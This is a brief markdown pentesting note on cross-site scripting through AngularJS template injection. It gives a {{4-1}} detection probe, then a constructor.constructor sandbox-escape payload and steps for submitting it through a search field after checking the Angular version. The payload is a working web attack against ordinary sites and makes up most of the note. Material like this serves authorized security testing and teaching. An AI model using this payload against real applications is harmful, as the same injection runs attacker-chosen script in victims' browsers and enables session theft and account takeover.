


# Angular XSS via TJ template injection

## XSS via Angular TJ template injection 

`payload = {{4-1}}`

**→ if response = {{4-1}} &gt; not vulnerable  
→ if response = 3 -&gt; template injection !**

`payload = {{constructor.constructor('alert("XSSSS")')()}}`  
 

#### note **** = must be angular &gt;= 1.6.0

Older \(see portswigger link\)

**Use the payload in a search field:**

* Check Angular version :

`console / angular.version`

